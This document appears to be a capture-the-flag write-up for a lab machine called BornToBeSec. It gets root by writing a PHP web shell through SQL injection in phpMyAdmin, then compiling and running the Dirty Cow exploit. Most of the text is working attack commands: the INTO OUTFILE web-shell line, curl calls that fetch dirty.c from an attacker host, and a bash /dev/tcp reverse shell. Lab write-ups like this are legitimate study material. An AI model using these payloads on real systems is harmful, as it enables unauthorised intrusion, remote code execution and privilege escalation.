 # Dirty Cow in the SQL Injection

In other write-ups, we have seen how to exploit the Dirty Cow vulnerability to gain root access.
But we needed to have the password of the user `laurie` of the machein to exploit it.

In this write-up, we will see how compile and run the Dirty Cow exploit without having a ssh connection on the machine, via a SQL Injection in the phpMyAdmin panel.

Like as previous, this is the php code for executing command via the forum page:

```sql
select '<?php system($_GET["cmd"]); ?>' into outfile "/var/www/forum/templates_c/cmd.php"
```

Now, we can execute any command, first of all we need to send the dirty.c file to the server and compile it:

```bash

curl --insecure --get https://BornToBeSec/forum/templates_c/cmd.php --data-urlencode "cmd=wget http://attacker:8000/dirty.c 2> /dev/stdout" # Send the dirty.c file from the attacker machine to the server
curl --insecure --get https://BornToBeSec/forum/templates_c/cmd.php --data-urlencode "cmd=ls" # Check if the file is there
curl --insecure --get https://BornToBeSec/forum/templates_c/cmd.php --data-urlencode "cmd=gcc -pthread dirty.c -o dirty -lcrypt" # Compile the dirty.c file
curl --insecure --get https://BornToBeSec/forum/templates_c/cmd.php --data-urlencode "cmd=./dirty 4242" # Execute the compiled file with the password 4242
```
 We could even change the user firefart to ft_root or laurie for getting a ssh connection via this command but right now we stay the simple way.
```bash
sed -i 's/firefart/ft_root/g' dirty.c
```

After that, we can check the id in su:
```bash
curl --insecure --get https://BornToBeSec/forum/templates_c/cmd.php --data-urlencode "cmd=su firefart -c id"

```

We could also create a reverse shell with the following command:
```bash
nc -lvp 4444 # On the attacker machine
curl --insecure --get https://BornToBeSec/forum/templates_c/cmd7.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/192.168.56.1/4444 0>&1'" # On the target machine
```
